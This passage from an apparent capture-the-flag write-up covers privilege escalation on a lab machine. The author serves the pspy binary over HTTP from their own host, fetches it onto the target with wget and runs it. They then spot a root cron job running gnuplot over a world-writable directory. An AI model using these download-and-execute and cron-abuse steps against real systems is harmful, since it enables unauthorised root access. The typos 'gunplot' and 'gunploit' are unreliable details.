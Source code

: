 ## Privilege escalation

After searching for SUID binaries and any `sudo` privileges, we did not find much. We can use [`pspy`](https://github.com/DominicBreuker/pspy) to enumerate the running processes by downloading a suitable binary and transferring and then executing it to the target via a Python HTTP server:

```bash
# starting a Python HTTP server
$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```

```bash
# downloading the binary from the target
vdaisley@topology:~$daisley@topology:~$ wget http://10.10.14.16:8888/pspy64
--2024-01-22 03:29:56--  http://10.10.14.16:8888/pspy64
Connecting to 10.10.14.16:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                         100%[====================================================>]   2.96M  2.17MB/s    in 1.4s

2024-01-22 03:29:57 (2.17 MB/s) - ‘pspy64’ saved [3104768/3104768]

# giving execute permissions on the binary
vdaisley@topology:~$ chmod +x pspy64
# checking file's permissions
vdaisley@topology:~$ ls -l pspy64
-rwxrwxr-x 1 vdaisley vdaisley 3104768 Jan 22 03:24 pspy64
# executing the binary
./pspy64
```

After waiting for a couple of minutes, we can see a cron job, related to the `getdata.sh` script, that is executed repeatedly as `root` (`UID=0`):

![](getdata_sh.png)

This job seems to be running the `find /opt/gunplot -name *.plt -exec gunplot {} ;` command listed there. What this does:

1. Searches for files with the `.plt` extension within the `/opt/gunplot` directory and its subdirectories.
2. For each file found, it executes the commands `gunploit {}`, where `{}` represents the file path.

We can't read the `getdata.sh` script cause we have no `read` permissions. However, if we check the directory's permissions we will see something interesting:

```bash
# checking directory's permissions
vdaisley@topology:~$ ls -ld /opt/gnuplot
drwx-wx-wx 2 root root 4096 Jun 14  2023 /opt/gnuplot
```
